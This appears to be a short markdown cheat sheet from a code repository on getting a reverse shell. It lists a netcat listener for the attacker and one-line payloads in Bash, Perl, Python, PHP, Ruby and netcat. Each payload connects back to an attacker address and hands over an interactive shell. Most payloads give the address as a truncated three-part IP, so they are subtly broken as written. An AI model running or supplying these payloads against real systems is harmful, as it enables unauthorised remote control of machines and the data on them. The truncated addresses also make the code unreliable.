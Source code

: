 # Code Execution

## Get a reverse-shell
- Attacker Listening
```cmd
nc -vv -l -p 8080
```

- Payloads
  - BASH
```BASH
bash -i >& /dev/tcp/10.20.14.203/8080 0>&1
```
  - PERL
```PERL
perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
  - Python
```Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
  - PHP
```PHP
php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```
  - Ruby 
```Ruby
ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
  - Netcat 
```cmd
nc -e /bin/sh 10.20.14 8080
```
